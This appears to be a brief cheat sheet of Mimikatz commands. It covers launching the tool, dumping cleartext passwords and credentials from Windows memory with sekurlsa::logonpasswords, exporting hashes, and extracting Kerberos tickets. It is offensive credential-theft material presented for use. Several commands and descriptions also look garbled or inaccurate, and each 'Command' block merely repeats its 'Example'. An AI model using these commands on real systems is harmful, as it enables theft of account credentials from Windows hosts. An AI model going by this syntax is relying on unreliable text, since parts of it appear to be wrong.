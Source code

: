 Mimikatz is a well-known post-exploitation tool used primarily for extracting credentials and performing various attacks on Windows systems. Below is a comprehensive list of Mimikatz commands and their examples.

### **Mimikatz Commands and Examples**

1. **Start Mimikatz**
   - **Command:**
     ```bash
     mimikatz
     ```
   - **Example:**
     ```bash
     mimikatz # launch Mimikatz
     ```

2. **Get Basic Information**
   - **Command:**
     ```bash
     mimikatz # privs
     ```
   - **Example:**
     ```bash
     mimikatz # privs
     ```
   - **Description:** Displays the current privileges of the Mimikatz session.

3. **Dump Cleartext Passwords**
   - **Command:**
     ```bash
     mimikatz # sekurlsa::logonpasswords
     ```
   - **Example:**
     ```bash
     mimikatz # sekurlsa::logonpasswords
     ```
   - **Description:** Dumps cleartext passwords, hashes, and other credentials from the memory.

4. **Dump NTLM Hashes**
   - **Command:**
     ```bash
     mimikatz # sekurlsa::logonpasswords /export
     ```
   - **Example:**
     ```bash
     mimikatz # sekurlsa::logonpasswords /export
     ```
   - **Description:** Dumps NTLM hashes of all logon sessions to a file.

5. **Kerberos Ticket Extraction**
   - **Command:**
     ```bash
     mimikatz # kerberos::tickets
     ```
   - **Example:**
     ```bash
     mimikatz # kerberos::tickets
     ```
   - **Description:** Extracts and lists Kerberos tickets from memory.
